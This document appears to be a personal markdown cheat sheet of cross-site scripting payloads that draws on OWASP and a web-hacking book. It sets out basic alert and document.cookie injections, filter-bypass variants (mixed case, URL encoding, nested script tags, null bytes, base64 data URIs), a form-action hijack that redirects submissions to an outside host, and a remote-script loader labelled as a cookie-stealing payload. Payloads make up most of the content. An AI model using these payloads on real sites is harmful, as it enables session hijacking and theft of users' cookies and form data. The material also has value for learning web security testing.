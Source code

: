 ### [OWASP XSS CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

## Contents:

- __[Basic Payloads]()__

- __[Reflected XSS Vulnerabilities]()__

- __[Stored XSS Vulnerbilities]()__

&nbsp;
&nbsp;
&nbsp;


__Basic Payloads:__

	"><img=src="aa" onerror="alert(document.domain)">

	"><svg/onload="alert(document.domain)">

	“><script>alert(document.cookie)</script>
	

__Notes___:

- This string is submitted as every parameter to every page of the application,
  and responses are monitored for the appearance of this same string. If cases
  are found where the attack string appears unmodifi ed within the response, the
  application is almost certainly vulnerable to XSS.

&nbsp;
&nbsp;
&nbsp;


__Passing Filters__: (Chapter 12: XSS Web App )

	“><script >alert(document.cookie)</script >
	
	“><ScRiPt>alert(document.cookie)</ScRiPt>
	
	“%3e%3cscript%3ealert(document.cookie)%3c/script%3e
	
	“><scr<script>ipt>alert(document.cookie)</scr</script>ipt>
	
	%00“><script>alert(document.cookie)</script>


&nbsp;
&nbsp;
&nbsp;

### Finding and Exploiting Refl ected XSS Vulnerabilities


- The most reliable approach to detecting refl ected XSS vulnerabilities involves
  working systematically through all the entry points for user input that were
  identifi ed during application mapping


	- Submit a benign alphabetical string in each entry point.
	
	- Identify all locations where this string is refl ected in the application’s response.

	- For each refl ection, identify the syntactic context in which the reflected data appears.
	
	
	- Submit modified data tailored and check the reponse of the application (reflected or filtered)



### Script Tags

- Beyond directly using a <script> tag, there are various ways in which you can
  use somewhat convoluted syntax to wrap the use of the tag, defeating some fi lters:
	  
	  
		<object data=”data:text/html,<script>alert(1)</script>”>
		
		<object data=”data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”>
		
		<a href=”data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==”>
		
		Click here</a>




__Complex Payload using POST method__

	"><svg/onload="document.forms[1].action='//sitecom.site/text.php'">



__PART2: Complex JS payload to steal Cookies:__


	- host JS file on the server. 

	- The file has an alert("XSS"); function

	- Craft a payload to connect to it :

		var s= document.createElement('SCRIPT');
		s.src= '//text.site/alert.php';

		document.body.appendChild(s);
		
	
	- Url:  "><svg/onload="var s= document.createElement('SCRIPT');s.src='//text.site/alert.php';document.body.appendChild(s);"

	

__Image Payload__ :

	- URL>>number.php?name=noImage.jpg' onerror=alert("xss");>
	
	- URL >> https://xss-doc.appspot.com/demo/3#imge.jpg' onerror=alert("xss");>

	

__XSS DOM:__ DOM runs on the client side,the payloads are process on the browser and not on the server side 
